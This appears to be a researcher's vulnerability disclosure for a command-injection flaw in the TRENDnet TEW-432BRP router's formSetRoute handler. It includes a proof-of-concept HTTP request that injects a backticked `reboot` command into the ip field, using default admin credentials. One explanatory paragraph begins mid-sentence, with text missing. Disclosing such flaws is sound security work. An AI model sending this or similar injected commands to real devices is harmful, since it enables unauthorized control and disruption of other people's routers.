

# TRENDnet Vulnerability

Vendor:TRENDnet

Product:TEW-432BRP

Version:3.10B20

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

**Remote Command Execution**

In `boa` binary:

In `formSetRoute` function, `ip、mask、gateway` is directly passed by the attacker, so we can control the `ip、mask、gateway` to attack the OS.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `ip` as **`reboot`** , and the router will excute it,such as:

```http
POST /goform/formSetRoute HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 188
Origin: http://192.168.10.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.10.1/routing_static.asp?t=1777299533303
Upgrade-Insecure-Requests: 1

edit_row=-1&ip=192.168.100.0 `reboot`&mask=255.255.255.0&gateway=192.168.10.50&iface=0&metric=1&add=Add&webpage=routing_static.asp&cur_ipaddr=192.168.10.1&cur_netmask=255.255.255.0&Action=
```


## Result

Reboot!

